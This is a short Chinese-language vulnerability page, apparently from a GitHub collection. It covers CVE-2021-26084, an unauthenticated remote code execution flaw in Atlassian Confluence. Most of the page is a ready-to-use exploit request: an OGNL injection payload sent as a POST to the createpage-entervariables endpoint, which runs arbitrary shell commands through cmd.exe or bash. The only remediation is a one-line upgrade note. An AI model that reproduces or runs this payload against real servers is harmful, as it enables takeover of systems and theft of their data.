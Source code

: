 ### 一 漏洞描述
Atlassian Confluence是Atlassian公司出品的专业的企业知识管理与协同软件，可用于构建企业文库等。2021年8月26日Atlassian官方发布公告，披露了CVE-2021-26084 Atlassian Confluence 远程代码执行漏洞。2021年8月31日，互联网上公开了相关漏洞利用脚本，攻击者可在无需登录的情况下构造恶意请求，执行任意代码，控制服务器。

### 二 漏洞利用
```
path: /pages/createpage-entervariables.action?SpaceKey=x
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip, deflate

POST: {"queryString": "aaaaaaaa\\u0027+{Class.forName(\\u0027javax.script.ScriptEngineManager\\u0027).newInstance().getEngineByName(\\u0027JavaScript\\u0027).\\u0065val(\\u0027var isWin = java.lang.System.getProperty(\\u0022os.name\\u0022).toLowerCase().contains(\\u0022win\\u0022); var cmd = new java.lang.String(\\u0022" + cmd + "\\u0022);var p = new java.lang.ProcessBuilder(); if(isWin){p.command(\\u0022cmd.exe\\u0022, \\u0022/c\\u0022, cmd); } else{p.command(\\u0022bash\\u0022, \\u0022-c\\u0022, cmd); }p.redirectErrorStream(true); var process= p.start(); var inputStreamReader = new java.io.InputStreamReader(process.getInputStream()); var bufferedReader = new java.io.BufferedReader(inputStreamReader); var line = \\u0022\\u0022; var output = \\u0022\\u0022; while((line = bufferedReader.readLine()) != null){output = output + line + java.lang.Character.toString(10); }\\u0027)}+\\u0027"}
```

### 三 漏洞修复
升级Confluence版本到安全版本以上

> 参考链接  
> http://blog.nsfocus.net/atlassian-confluence/
